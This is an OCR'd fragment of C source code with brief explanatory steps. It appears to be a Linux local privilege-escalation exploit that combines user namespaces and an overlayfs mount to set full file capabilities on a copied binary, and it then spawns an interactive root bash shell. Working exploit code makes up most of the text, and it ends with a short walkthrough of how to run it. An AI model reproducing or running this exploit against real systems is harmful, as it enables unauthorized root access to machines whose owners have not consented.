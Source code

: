 ```c

    // all+ep
    char cap[] = "\x01\x00\x00\x02\xff\xff\xff\xff\x00\x00\x00\x00\xff\xff\xff\xff\x00\x00\x00\x00";

    xcopyfile("/proc/self/exe", BIN_MERGE, 0777);
    if (setxattr(BIN_MERGE, "security.capability", cap, sizeof(cap) - 1, 0) == -1)
        err(1, "setxattr %s", BIN_MERGE);

    return 0;
}

int main(int argc, char *argv[])
{
    if (strstr(argv[0], "magic") || (argc > 1 && !strcmp(argv[1], "shell"))) {
        setuid(0);
        setgid(0);
        execl("/bin/bash", "/bin/bash", "--norc", "--noprofile", "-i", NULL);
        err(1, "execl /bin/bash");
    }

    pid_t child = fork();
    if (child == -1)
        err(1, "fork");

    if (child == 0) {
        _exit(exploit());
    } else {
        waitpid(child, NULL, 0);
    }

    execl(BIN_UPPER, BIN_UPPER, "shell", NULL);
    err(1, "execl %s", BIN_UPPER);
}
```
Modify the user namespaces so that it has root privileges under another namespace so that the overlay can be mounted.

Use the overlay to copy the exp file, and because the current namespace is a super authority, you can directly set the capability to grant permissions.

Run exp, and the privilege is successfully escalated.

Like Magic 

> made with love by L3mon (Amine)